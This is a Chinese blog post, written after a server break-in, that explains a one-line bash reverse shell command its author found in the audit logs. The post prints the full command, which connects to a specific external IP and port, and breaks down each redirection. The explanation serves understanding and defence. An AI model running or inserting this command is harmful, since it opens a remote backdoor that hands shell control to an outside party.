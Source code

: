 ```yaml
---
layout: post
title: 单行反弹Shell命令的理解
description: "单行反弹Shell命令的理解"
category: Shell
avatarimg:
tags: [Security, Linux, Shell, Bash]
duoshuo: true
---
```


公司的一台服务器被黑客入侵了。。。安全没做好！！！
查看bash审计日志，发现黑客执行的相关命令，其中有一条反弹Shell的命令，在被黑的服务器上执行如下：
> bash -i >& /dev/tcp/173.208.201.162/9083 0>&1 &

执行后的效果就是黑客在自己的机器上利用nc等工具监听9083端口，不仅可以发送命令到被黑服务器上，命令的输出也会回显到黑客的机器上，整个表现就是被黑服务器的Shell反弹到黑客机器上了，和SSH远程登录一台服务器执行命令一样。。。

理解上面的单行命令，费了好半天，看来对bash shell的掌握还不够啊。

- 首先， bash -i开启了Shell的交互模式，这样反弹Shell后，黑客可以和它交互；
- 然后是这段： >& /dev/tcp/173.208.201.162/9083，表示bash打开到远程目标IP端口的TCP连接，并将标准出重定向到远程目标IP端口上；
- 再然后是这段：0>&1，表示标准输入（这个标准输入是在远端执行的）也重定向到远程目标IP端口上？（PS: 这里我不是很好理解，如果高手看到请指点一下。）
- 最后的&表示后台运行，这样就相当于常驻后台的后门了。

我不得不感叹，第一个想出这种用法的人真是变态啊，算是奇技淫巧，对bash shell的掌握很深入了。

**Refercences:**   
[交互式shell和非交互式shell](http://blog.csdn.net/trochiluses/article/details/13767669)  
[Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)  
[REVERSE SHELL WITH BASH](http://www.gnucitizen.org/blog/reverse-shell-with-bash/)  
[What is the difference between &> and >& in bash?](http://superuser.com/questions/335396/what-is-the-difference-between-and-in-bash)

